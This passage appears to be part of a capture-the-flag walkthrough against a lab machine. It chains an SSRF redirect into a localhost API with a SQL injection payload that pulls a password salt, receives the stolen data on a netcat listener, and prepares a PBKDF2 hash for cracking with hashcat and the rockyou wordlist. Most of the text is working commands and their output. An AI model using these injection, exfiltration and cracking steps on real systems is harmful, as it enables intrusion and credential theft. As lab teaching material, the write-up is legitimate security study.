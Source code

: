 ```sO3XIbeW14```

```console
└─$ python2.7 redirect.py --port 80 --ip 10.10.16.19 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,(select/**/salt/**/from/**/user),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--"
serving at port 80
10.129.61.202 - - [05/Oct/2022 15:18:37] "GET / HTTP/1.0" 301 -
```
```console
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.61.202] 43302
POST / HTTP/1.1
Host: 10.10.16.19:1234
Accept: */*
Content-type: application/json
Content-Length: 754

{"webhookUrl":"http:\/\/10.10.16.19:1234","monitoredUrl":"http:\/\/10.10.16.19","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"sO3XIbeW14\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/1\"}],\"ok\":true}","message":"HTTP\/1.0 301 Moved Permanently","headers":{"Server":"SimpleHTTP\/0.6 Python\/2.7.18","Date":"Wed, 05 Oct 2022 21:06:48 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,1,(select\/**\/salt\/**\/from\/**\/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"174"}}
```

### For this hash cracking portion help was needed and appreciated!

Now in order to actually decrypt this hash we have to convert back into hex and then base64.

```console
└─$ echo '66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37' | xxd -r -ps | base64
ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```

Then also base64 encode the salt.

Note: It is also required to take off the ```o=```

```console
└─$ echo 'sO3XIbeW14' |base64    
c08zWEliZVcxNAo=
```

Then create a file and put ```sha256:10000:c08zWEliZVcxNA:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=``` inside it

Run hashcat and it will auto detect it as PBKDF2-HMAC-SHA256.

Then we finally get the password february 15!

```console
└─$ hashcat  hash /usr/share/wordlists/rockyou.txt  
hashcat (v6.2.5) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Xeon(R) Gold 5222 CPU @ 3.80GHz, 6947/13958 MB (2048 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
```
